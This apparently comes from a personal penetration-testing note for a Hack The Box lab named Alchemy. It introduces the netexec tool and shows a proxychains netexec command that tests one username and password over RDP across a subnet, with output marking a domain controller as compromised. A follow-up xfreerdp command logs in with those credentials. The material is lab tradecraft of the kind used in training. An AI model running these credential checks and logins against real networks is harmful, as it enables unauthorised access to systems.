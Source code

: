 ### netexec
- new and improved `crackmapexec` due to being deprecated, works with all protocols as before except now also properly works with rdp
```bash
┌──(root💀gobots)-[24Jun2024 19:41:33]-[/home/kali/SUT/Alchemy]                                                    
└─# proxychains netexec rdp 172.16.0.0/24 -u "james" -p 'greenday' -d alchemy.htb          
[proxychains] config file found: /etc/proxychains4.conf                                                           
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4               
[proxychains] DLL init: proxychains-ng 4.17                                                                       
RDP         172.16.0.2      3389   DC               [*] Windows 8.1 or Windows Server 2012 R2 Build 9600 (name:DC) (domain:alchemy.htb) (nla:True)
RDP         172.16.0.33     3389   WS02             [*] Windows 10 or Windows Server 2016 Build 19041 (name:WS02) (domain:alchemy.htb) (nla:True)
RDP         172.16.0.2      3389   DC               [+] alchemy.htb\james:greenday (Pwn3d!)                        
RDP         172.16.0.33     3389   WS02             [-] alchemy.htb\james:greenday (STATUS_LOGON_FAILURE)   
```

![[Pasted image 20240624154859.png]]


┌──(root💀gobots)-[24Jun2024 19:20:13]-[/home/kali/SUT/Alchemy]
└─# proxychains xfreerdp /u:james /d:alchemy.htb /p:greenday /cert:ignore /v:172.16.0.2 /tls-seclevel:0 /timeout:80000